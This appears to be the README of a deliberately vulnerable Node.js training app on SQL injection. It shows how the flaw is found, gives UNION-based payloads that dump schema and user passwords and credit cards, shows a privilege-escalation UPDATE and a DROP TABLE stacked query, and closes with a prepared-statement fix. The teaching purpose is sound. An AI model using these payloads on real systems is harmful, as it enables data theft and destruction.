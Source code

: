 # Learning SQL Injection

## Description

This intentional bad written node.js app demonstrate how SQL injections can
happen and how they could be abused.

## WARNING - DISCLAIMER

THIS APP IS VULNERABLE AGAINST SQL INJECTION, ONLY EXECUTE THE APP FOR LEARNING
PURPOSES AND ONLY WITHIN A TRUSTED ENVIRONMENT AND ONLY WITH A DATABASE USER
WITH LIMITED ACCESS.

TO REDUCE THE RISK THE APP ONLY LISTENS TO CONNECTIONS FROM LOCALHOST.

USE THE APP AT YOUR OWN RISK!

## Setup

To prepare this demo you need to do the following:
 - execute `npm install` (this will install mysql and express)
 - import `example-database.sql` into an empty MySQL database
 - change `db.js` and enter you database config

To run the demo:
 - execute `npm start`
 - open http://localhost:3000

## The bad code

The /hw endpoint in the app.js builds the SQL query by simply concatenating
the the query template (`SELECT ... LIKE '%`) with the user's input for filtering
the result (`req.query.name`) and the end part of the SQL query (`%'`).

## What the developer wanted

The SQL query which is the sent to the database server should look like:

```
SELECT
name, stock, price
FROM product
WHERE name LIKE '%hammer%'
```

## Inject

The attacker wants to inject his own code.

He finds the vulnerability by searching for `Ham'mer`. The server returns an error.
And this is the good signal for the attacker.

The attacker doesn't know the SQL query, but it was:

```
SELECT
name, stock, price
FROM product
WHERE name LIKE '%Ham'mer%'
```

As you can see this is not a valid SQL query, hence the error.

Next step would be to make the SQL query valid again:
The attacker searches for `something' OR 1=1 -- comment` and the query becomes:

```
SELECT
name, stock, price
FROM product
WHERE name LIKE '%something' OR 1=1 -- comment%'
```

This will show all products even if they not have `something` in the name.

Then `-- comment` part ensures, that everything after the double hyphen is ignored
because it's a SQL comment.

## Be Creative

### Select other stuff

With the `UNION` keyword you can combine two queries into one result set.

Searching for `' UNION SELECT 'a' -- comment` will throw an error.
The attacker does not know the exact error, but he assumes it is the follwing:

`The used SELECT statements have a different number of columns`

To get the `UNION` keyword working the second SQL query (the attacker's one) must have
exactly the same number of columns as the internal one (which he doesn't know).

After trying a query with two columns (error) the following injection
returns the products again:

Search term: `' UNION SELECT 'a', 'b', 'c' -- comment`

Resulting query:

```
SELECT
name, stock, price
FROM product
WHERE name LIKE '%' UNION SELECT 'a', 'b', 'c' -- comment%'
```

This will show the product `a, b, c` in the result.

### Examples

`xyz' UNION SELECT 'a', 'b', 'c' -- comment`

`xyz' UNION SELECT TABLE_SCHEMA, TABLE_NAME, 'c' FROM information_schema.TABLES -- comment`

`xyz' UNION SELECT TABLE_SCHEMA, TABLE_NAME, COLUMN_NAME FROM information_schema.COLUMNS -- comment`

`xyz' UNION SELECT TABLE_SCHEMA, TABLE_NAME, COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = 'sql_learning_injection' -- comment`

```xyz' UNION SELECT name, mail, `group` FROM user -- comment```

```xyz' UNION SELECT id, name, CONCAT_WS('<br/>', id, name, password, clear_pw, credit_card, mail, `group`) FROM user -- comment```

### Further ideas (not part of this learning)

#### When updating own user details inject sql to set group to admin

Bad query
`UPDATE user SET mail = '" + req.query.mail + "' WHERE id = " + user_id`

with user input
```my.mail@example.com ', `group` = 'admin```

becomes
```UPDATE user SET mail = 'my.mail@example.com ', `group` = 'admin' WHERE id = 42```

#### Execute multiple queries

Bad query
`SELECT name, stock, price FROM product WHERE name LIKE '%" + req.query.name + "%'`

with user input
`'; DROP TABLE USER -- --`

becomes
`SELECT name, stock, price FROM product WHERE name LIKE '%'; DROP TABLE USER -- --%'`


## The good code ... or: How to avoid them

Don't use user input directly.

Either escape the user input properly or better use prepared statements and bind the user input to parameters.

## Example

```
app.get('/hw', function (req, res) {
    const query = "SELECT name, stock, price FROM product WHERE name LIKE ?";
    const param = ['%' + req.query.name + '%'];
    conn.query(query, param, (err, rows) => {
       if (err) {
           res.status(500).send(err.toString());
       } else {
           res.status(200).json(rows);
       }
    });
});
```

Small code change, huge outcome!

Do it! Do it everywhere!
